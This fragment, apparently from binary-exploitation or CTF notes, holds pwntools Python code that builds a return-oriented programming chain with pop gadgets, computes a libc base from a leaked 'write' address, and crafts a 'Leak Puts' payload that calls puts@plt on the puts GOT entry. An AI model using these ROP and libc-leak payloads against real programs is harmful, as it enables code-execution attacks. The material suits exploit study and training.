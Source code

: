 ```py
    0x50: 0,	# pop r12
    0x58: 0,	# pop r13
    0x60: 0, 	# pop r14
    0x68: 0,	# pop r15
    0x70: start_addr	# ret
}, filler='\0')

...

write_addr = l64() - libc.sym['write']
```



## Leak Puts

```py
pl = flat({
    0x0: p_rdi_r,	# ret
    0x8: put_got,
    0x10: put_plt,	
}, filler='\0')
```



